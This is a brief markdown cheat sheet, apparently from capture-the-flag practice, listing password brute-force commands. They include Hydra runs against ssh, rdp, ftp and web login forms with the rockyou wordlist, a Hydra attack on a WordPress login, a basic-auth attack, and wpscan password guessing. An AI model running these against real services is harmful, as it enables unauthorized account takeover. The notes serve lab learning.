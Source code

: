 # Attacks

## username list

remember there's a username list on `/usr/share/wordlists/dirb/others/names.txt`

## Hydra

### Basics

#### http-post

A standard attack looks like: 

`hydra -l ${user} -P /usr/share/wordlists/rockyou.txt ${RHOST} ${mode}`
modes can be eg. `ssh`, `rdp`,`vnc`, `ftp` or `http[s]-post-form`.

An example of an attack made towards a wordpress site eg. looked like this:
```
hydra $RHOST -l Elliot -P fsocity.dic http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=The password you entered for the username||The password field is empty"
```
(For this particular box, we were given a file `fsocity.dic` to use for fuzzing)

#### http-get

If a website itself has password protection when you access it, note that it is looking in the Authorization header looking for something on the form `admin:password` (base64 encoded).
This can be attacked with hydra with the following command:
```
hydra $RHOST -l admin -P /usr/share/wordlists/rockyou.txt http-get / 
```

## WordPress

If you find a wordpress site, it's worth checking if you can pwn the admin login with:

```
wpscan -U admin --url $RHOST/${PATH} -P /usr/share/wordlists/rockyou.txt
```

An example of an equivalent `wpscan` command for the above hydra command, is:

```
wpscan -U Elliot --url $RHOST/wp-login -P fsocity.dic 
```
